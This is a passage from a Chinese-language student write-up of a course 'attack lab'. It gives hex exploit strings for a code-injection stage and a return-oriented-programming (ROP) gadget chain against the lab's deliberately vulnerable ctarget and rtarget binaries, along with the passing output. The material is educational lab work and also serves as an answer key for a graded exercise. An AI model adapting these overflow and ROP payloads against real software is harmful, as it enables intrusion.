 ```bash
48 c7 c7 c8 f7 66 55 68
a0 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
a8 f7 66 55 00 00 00 00
36 33 31 34 39 33 38 30
00
```

转换输入运行

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase3 | ./ctarget -q
Cookie: 0x63149380
Type string:Touch3!: You called touch3("63149380")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:3:48 C7 C7 C8 F7 66 55 68 A0 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 A8 F7 66 55 00 00 00 00 36 33 31 34 39 33 38 30 00
```

## 第二阶段

在此阶段，程序添加了两个现代计算机程序几乎必须的对抗缓缓冲区溢出攻击的措施：

1.函数栈随机化 ，无法再获取绝对地址。

2.栈内存的内容被锁定为不可执行。

故此，我们需要使用 ROP(面向返回编程)，即使用程序中本来就存在的代码组成我们需要的操作，再将其地址作为返回值，不断用 ret 指令返回完成所需操作。

### phase_4

此关需用 ROP 方法完成 phase_2 内容。那么就需要在操作中得到 cookie 值，那么只有用 pop 指令了，需要指令为。

```assembly
popq 	%rax
movq	%rax,%rdi
ret
```

查找官方的 write up，得知对应机器码，然后在在 rtarget 文件的反汇编文件中利用 vim 查找对应代码地址。将其放入攻击字符串，得到攻击字符串为。

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3c 18 40 00 00 00 00 00	/*	popq rax		*/
80 93 14 63 00 00 00 00	/*	cookie			*/
49 18 40 00 00 00 00 00	/*	movq %rax,%rdi 	*/
cc 16 40 00 00 00 00 00 /*	touch2			*/
```

转换输入运行
